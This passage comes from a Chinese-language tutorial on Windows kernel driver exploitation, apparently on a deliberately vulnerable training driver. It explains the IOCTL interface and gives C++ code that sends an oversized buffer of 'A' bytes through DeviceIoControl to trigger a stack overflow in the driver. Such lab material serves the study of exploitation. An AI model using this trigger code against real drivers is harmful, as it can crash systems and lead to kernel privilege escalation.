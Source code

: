 ### C. 简单与功能交互

[![](assets/1706090591-44c40beadb7b405d4a6dfca58897e743.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130106-401ee412-b8e3-1.png)

这里要传一个空间和大小过去，这里用的到方式就是上一篇的 IOCTL 方式

这里我把所有的 exp 定义在`exp.c`

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x50] = "aaaaa\0";
    unsigned int size = 0x30;
    DWORD info = 0;
    DeviceIoControl(hDevice, ioctl, stackspace, sizeof(DWORDLONG), &size, sizeof(DWORDLONG), &info, NULL);
    std::cout << "IO Complete\n";
}
```

[![](assets/1706090591-3c31e1e0f75924e83b23f71b4395c96c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130127-4c326d5a-b8e3-1.png)

驱动定义了一个 2048 大小的栈空间`v5`，但是写入的空间是我们可以控制的，尝试触发漏洞

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    unsigned int size = 0x1000;
    RtlFillMemory(stackspace, size, 'A');
    DWORD info = 0;

    DeviceIoControl(hDevice, ioctl, 
        stackspace, size, 
        NULL, 0, 
        &info, NULL);

    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```
